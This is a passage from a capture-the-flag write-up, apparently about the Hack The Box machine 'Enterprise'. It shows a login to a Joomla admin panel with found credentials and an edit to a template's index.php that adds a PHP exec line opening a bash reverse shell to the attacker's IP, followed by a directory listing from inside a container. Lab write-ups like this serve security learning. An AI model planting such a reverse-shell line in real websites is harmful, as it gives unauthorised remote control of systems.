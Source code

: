 Keeping this aside, another attempt at a reverse shell through *Joomla* was carried out.

### Joomla
On the Joomla admin panel, [http://enterprise.htb:8080/administrator](http://enterprise.htb:8080/administrator),
with the user as *geordi.la.forge*, login attempts were carried with the identified passwords. The credentials that 
worked in this case was ***geordi.la.forge:ZD3YxfnSjezg67JZ***. Similar to the WordPress method, the file *index.php*, 
found on Extensions -> Templates -> Templates -> Protostar Details and Files was edited to add the following line.
```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/9090 0>&1'");
```
Browsing to [http://enterprise.htb:8080/index.php](http://enterprise.htb:8080/index.php), triggers the reverse shell and
the same is caught on port 9090 of the attacking host. However, the result was the same, as this is another docker
container.
![Joomal Shell](/assets/img/posts/enterprise/joomlaShell.png)
Therefore, the only way forward is to break out of this container. 

### User shell
Enumerating further, on the Joomla shell showed that ```/var/www/html``` contains both *files* directory and the 
wordpress files, indicating this could be from the target system.
```terminal 
www-data@a7018bfdc454:/var/www/html$ ls -la
total 16988
drwxr-xr-x 18 www-data www-data    4096 Sep  8  2017 .
drwxr-xr-x  4 root     root        4096 Jul 24  2017 ..
-rw-r--r--  1 www-data www-data    3006 Sep  3  2017 .htaccess
-rw-r--r--  1 www-data www-data   18092 Aug 14  2017 LICENSE.txt
-rw-r--r--  1 www-data www-data    4874 Aug 14  2017 README.txt
drwxr-xr-x 11 www-data www-data    4096 Aug 14  2017 administrator
drwxr-xr-x  2 www-data www-data    4096 Aug 14  2017 bin
drwxr-xr-x  2 www-data www-data    4096 Aug 14  2017 cache
drwxr-xr-x  2 www-data www-data    4096 Aug 14  2017 cli
drwxr-xr-x 20 www-data www-data    4096 Sep  3  2017 components
-r--r--r--  1 www-data www-data    3053 Sep  6  2017 configuration.php
-rwxrwxr-x  1 www-data www-data    3131 Sep  7  2017 entrypoint.sh
drwxrwxrwx  2 root     root        4096 Jul 22 14:48 files
-rw-rw-rw-  1 www-data www-data 5457775 Sep  8  2017 fs.out
-rw-rw-rw-  1 www-data www-data 8005634 Sep  8  2017 fsall.out
-rw-rw-rw-  1 www-data www-data 2044787 Sep  7  2017 goonthen.txt
-rw-r--r--  1 www-data www-data    3005 Aug 14  2017 htaccess.txt
drwxr-xr-x  5 www-data www-data    4096 Sep  6  2017 images
drwxr-xr-x  2 www-data www-data    4096 Aug 14  2017 includes
-rw-r--r--  1 www-data www-data    1420 Aug 14  2017 index.php
drwxr-xr-x  4 www-data www-data    4096 Aug 14  2017 language
drwxr-xr-x  5 www-data www-data    4096 Aug 14  2017 layouts
```